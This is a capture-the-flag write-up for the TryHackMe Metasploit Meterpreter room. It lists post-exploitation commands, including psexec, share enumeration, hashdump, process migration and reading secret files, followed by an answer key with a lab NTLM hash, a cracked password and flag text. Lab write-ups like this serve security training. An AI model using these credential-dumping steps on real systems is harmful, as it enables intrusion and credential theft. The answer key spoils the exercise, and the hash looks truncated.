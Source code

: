 ![Metasploit: Meterpreter Banner](https://assets.tryhackme.com/room-banners/metasploit.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/meterpreter/Metasploit_Meterpreter_Cover.png" alt="Metasploit: Meterpreter Logo">
</p>

# Metasploit: Meterpreter

This guide contains the answer and steps necessary to get to them for the [Metasploit: Meterpreter](https://tryhackme.com/room/meterpreter) room.

### Post-Exploitation Challenge

```cmd
sysinfo
```
```cmd
exploit/windows/smb/psexec
```
```cmd
post/windows/gather/enum_shares
```
```cmd
hashdump
```
```cmd
migrate 752
```
```cmd
hashdump
```
```cmd
search -f secrets.txt
```
```cmd
cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"
```
```cmd
search -f realsecret.txt
```
```cmd
cat "c:\inetpub\wwwroot\realsecret.txt"
```

1. What is the computer name?

   

   ><details><summary>Click for answer</summary>ACME-TEST</details>

2. What is the target domain?

   

   ><details><summary>Click for answer</summary>FLASH</details>

3. What is the name of the share likely created by the user?

   

   ><details><summary>Click for answer</summary>speedster</details>

4. What is the NTLM hash of the jchambers user?

   

   ><details><summary>Click for answer</summary>69596c7aa1e8daee17f8e78870e25a5</details>

5. What is the cleartext password of the jchambers user?

   

   ><details><summary>Click for answer</summary>Trustno1</details>

6. Where is the "secrets.txt"  file located?

   

   ><details><summary>Click for answer</summary>c:\Program Files (x86)\Windows Multimedia Platform</details>

7. What is the Twitter password revealed in the "secrets.txt" file?

   

   ><details><summary>Click for answer</summary>KDSvbsw3849!</details>

8. Where is the "realsecret.txt" file located?

   

   ><details><summary>Click for answer</summary>c:\inetpub\wwwroot</details>

9. What is the real secret? 

   

   ><details><summary>Click for answer</summary>The Flash is the fastest man alive</details>
